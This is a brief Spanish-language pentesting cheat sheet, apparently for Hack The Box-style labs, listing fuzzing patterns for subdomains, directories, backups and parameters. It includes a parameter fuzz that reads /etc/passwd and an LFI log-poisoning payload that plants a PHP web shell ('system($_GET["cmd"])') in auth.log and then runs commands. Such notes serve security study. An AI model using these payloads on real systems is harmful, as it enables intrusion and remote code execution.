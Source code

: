 # Bruteforce subdominios
```
FUZZ.maquina.htb
maquina.FUZZ.htb
```
# Bruteforce directorios
```
http://192.168.1.89/FUZZ
---
extensiones: zip,txt,html,php,gif,jpg
```
# Archivos backup
```
~archivo.php
```
# Bruteforce parámetros
```
file.php?FUZZ=id
---
file.php?FUZZ=/etc/passwd
```
# LFI
Log poisoning
```
'<?php system($_GET["cmd"]);?>'@192.168.10.11
---
file.php?file=/var/log/auth.log&cmd=id
```

# Checklist
- Revisra ruta .git
- Probar distintos diccionarios para fuerza bruta